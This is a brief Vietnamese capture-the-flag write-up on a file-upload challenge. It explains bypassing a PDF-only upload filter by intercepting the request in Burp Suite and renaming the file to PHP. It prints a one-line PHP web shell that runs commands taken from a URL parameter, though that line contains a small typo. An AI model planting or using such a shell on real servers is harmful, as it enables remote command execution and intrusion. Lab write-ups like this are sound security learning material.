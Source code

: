 xin chào các bạn nha :<


bài thứ 3 khi vào trong giao diện mình sẽ thấy như này
![Alt text](image-2.png)
Thì mình đoán ngay từ đầu là sẽ upload file vul
Sau khi up thử 1 file mình sẽ có đường link dẫn đến file đó đầu tiên mình thử upload .php shell lên thì không được và nó đã fillter file chỉ nhận pdf

Sau đó mình tạo 1 file để get parameters đơn giảm như sau:

                                        <?php $cmd=_GET["cmd"]; echo system($cmd); ?>
đầu tiên là gửi 1 file pdf chặn proxy bằng burpsuite sau đó đổi filenama thành any.php
thay đổi nội dung file thành shell trên
sau đó pem tìm file flag thôi mình sẽ dùng ls các kiểu và cat flag :>
